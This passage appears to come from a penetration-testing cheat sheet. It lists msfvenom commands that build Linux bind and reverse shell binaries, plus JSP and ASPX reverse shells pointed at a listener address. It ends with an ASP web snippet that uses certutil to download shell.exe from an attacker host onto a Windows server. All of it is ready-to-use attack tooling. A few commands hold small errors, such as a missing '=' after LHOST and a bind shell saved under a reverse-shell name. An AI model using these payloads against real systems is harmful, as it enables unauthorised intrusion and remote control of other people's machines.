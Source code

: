 Bind Shell:

```
msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf

```

64 Bit (x64)

Reverse Shell:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

```

Bind Shell:

```
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf

```

### Java Server Pages (.jsp)

Java Server Pages (.jsp)

Reverse Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp

```

### Active Sever Pages Extended (.aspx)

Active Sever Pages Extended (aspx)

Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx

```

## Active Sever Pages Extended (.apsx)

Active Sever Pages Extended (.aspx)

Transfer A File (Certutil)

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil.exe -urlcache -f <http://192.168.0.1/shell.exe> C:\\Windows\\Temp\\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>

```
